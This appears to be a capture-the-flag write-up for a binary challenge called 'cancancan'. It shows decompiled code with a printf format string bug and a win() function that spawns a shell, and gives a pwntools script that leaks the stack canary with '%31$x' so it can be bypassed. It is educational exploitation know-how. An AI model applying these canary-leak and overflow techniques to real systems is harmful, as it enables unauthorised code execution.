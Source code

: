 ```
  for (local_78 = 0; local_78 < 2; local_78 = local_78 + 1) {
    uVar1 = 0x200;
    __buf = local_74;
    read(0,__buf,0x200);
    printf(local_74,__buf,uVar1,uVar2);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}


void win(void)

{
  system("/bin/sh");
  return;
}
```

The goal of this challenge seems fairly straightforward. We need to overflow local_74
in vuln() and overwrite the return address to win(). However, there is a stack canary
preventing us from doing a simple overflow like last time.

```
if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
  __stack_chk_fail_local();
}
```

When we overflow local_74 we end up overwriting the canary value and the program
terminates. To bypass this we need to know the canary value beforehand. To do this
we either need to bruteforce it or, in this case, leak the value of it.

```
read(0,__buf,0x200);
printf(local_74,__buf,uVar1,uVar2);
```

To leak the value I used format strings. I used a great tutorial you can find [here](https://www.cs.wcupa.edu/schen/security/canary/)
to stumble my way through this process. Following the tutorial, I figured that to leak the
canary value I needed to use a `%31$x` format string. I confirmed this with gdb and the following
script.  

```
from pwn import *

p = process('./cancancan')

p.recvuntil(b'bypass me???\n')
p.sendline(b'%31$x')
leak = p.recvline().decode()
log.info("canary value: 0x%s" % leak)
```
